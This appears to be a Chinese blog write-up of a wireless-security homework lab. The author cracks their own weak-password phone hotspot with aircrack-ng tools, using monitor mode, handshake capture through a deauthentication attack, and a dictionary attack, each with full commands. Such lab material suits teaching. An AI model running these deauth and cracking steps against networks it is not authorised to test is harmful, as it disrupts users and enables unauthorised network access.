

《无线网络安全》作业。梦回大一。

<!--more-->

## 准备工作

手机开启热点，设置弱密码 `merc123321`，热点 SSID 为 `nova 4`。物理机连接 `nova 4` 无线网络作为被害主机。


为 Kali 虚拟机添加无线网卡，随后即可在 `ifconfig` 的输出中看到 `wlan0` 网卡：


首先启动监听：

```shell
$ sudo airmon-ng start wlan0
```

结果如图：


此时 `ifconfig` 可以看到 `wlan0mon` 监听网卡：


随后扫描无线网络：

```shell
$ sudo airodump-ng wlan0mon
```

结果如图，可以看到 `nova 4` 网络的 BSSID 为 `D8:9B:3B:9E:AB:A9`。


利用该 BSSID 过滤掉其余网络流量：

```shell
$ sudo airodump-ng -c 11 --bssid D8:9B:3B:9E:AB:A9 -w psk wlan0mon
```

结果如图：


## 捕获 WPA 握手包

此时我们需要捕获到 WPA 握手包，因此可以攻击一个已经连接到该网络的主机（即我们的物理机），让它强制掉线并重连产生握手包。

首先查看被害主机 MAC 地址：


可以看到 MAC 地址为 `F4:8C:50:9F:E5:43`。实际上，在前面 `airodump-ng` 时的界面中也可以直接看到连接了该网络的主机 MAC 地址。随后发送 `DeAuth` 包使其掉线：

```shell
$ sudo aireplay-ng -0 1 -a D8:9B:3B:9E:AB:A9 -c F4:8C:50:9F:E5:43 wlan0mon
```

出现 `WPA handshake` 即捕获到了握手包，可以停止捕获了。



## 口令破解

此时在目录下会生成 `psk-01.cap` ，我们使用 `aircrack-ng` 进行口令破解：

```shell
$ sudo aircrack-ng -w password.lst -b D8:9B:3B:9E:AB:A9 psk*.cap
```

使用的字典中包含了 `merc123321` 这个真正的密码：

```shell
$ cat password.lst
merc123
merc1234
merc123456
123merc
1234merc
123456merc
merc123321
merc321123
```

最后即可成功破解：


